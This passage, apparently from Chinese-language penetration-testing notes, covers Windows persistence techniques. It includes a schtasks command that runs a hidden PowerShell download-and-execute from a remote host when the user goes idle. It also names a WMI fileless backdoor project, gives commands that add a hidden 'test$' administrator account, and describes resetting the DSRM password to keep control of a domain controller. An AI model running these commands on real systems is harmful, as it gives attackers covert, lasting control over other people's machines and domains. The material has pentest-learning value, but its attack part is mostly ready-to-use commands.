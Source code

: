```powershell
#(X86) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30

```

## 4.wmi无文件后门

`evil3.vbs `-> 恶意VBS脚本。创建事件过滤器，捕获账户成功登陆的事件；创建活动脚本事件消费者，捕获到事件后执行远程脚本pnc.js;绑定过滤器和消费者。

然后类似于nc一样的工具进行连接：

参考项目 ：

https://github.com/SAMOxtan/WMI_Fileless_Backdoor

https://github.com/SAMOxtan/WMI_Fileless_Backdoor

## 5. 隐藏用户

```powershell
net user test$ 123456Qaq /add
net localgroup administrators test$ /add
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516090451.png)

主要是创建影子用户的思路：https://blog.csdn.net/weixin_51339377/article/details/124168411


## 6. DSRM后门

DSRM(Directory Services Restore Mode) 是 Windows 域环境中域控制器的安全模式启动选项。每个域控制器有一个**本地管理员**账号(也就是 DSRM 账号)。DSRM 的用途是:允许管理员在域环境出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM 的密码需要在安装 DC 时设置，且很少会被重置。修改 DSRM 密码最基本的方法是在 DC 上运 ntdsutil 行命令。

在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。

* 如果域控制器的系统版本为 Windows Server 2008，则需要安装 KB96132 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。
* 在 Windows Server 2008 以后版本的系统中不需要安装此补丁。
* 如果域控制器的系统版本为 Windows Server 2003，则不能使用该方法进行持久化操作。

每个 DC 都有本地管理员(administrator)账号和密码。DSRM 账号可以作为 DC 的本地管理员用户，通过网络连接 DC，进而控制 DC。

在 DC 上，DSRM 账号的表现形式是本地的 administrator 用户，也就是说本地 administrator 用户 = DSRM 账号

### 修改DSRM密码

参考链接：https://blog.csdn.net/weixin_36044132/article/details/119595410

微软官方给出的方法：

```powershell
NTDSUTIL #打开ntdsutil
set DSRM password # ：修改DSRM的密码
reset password on  server xxxx # 在当前域控制器上重置DSRM的密码
# 重复确定两次密码以后就可以了
# q(第1次)：退出DSRM密码设置模式
# q(第2次)：退出ntdsutil
```
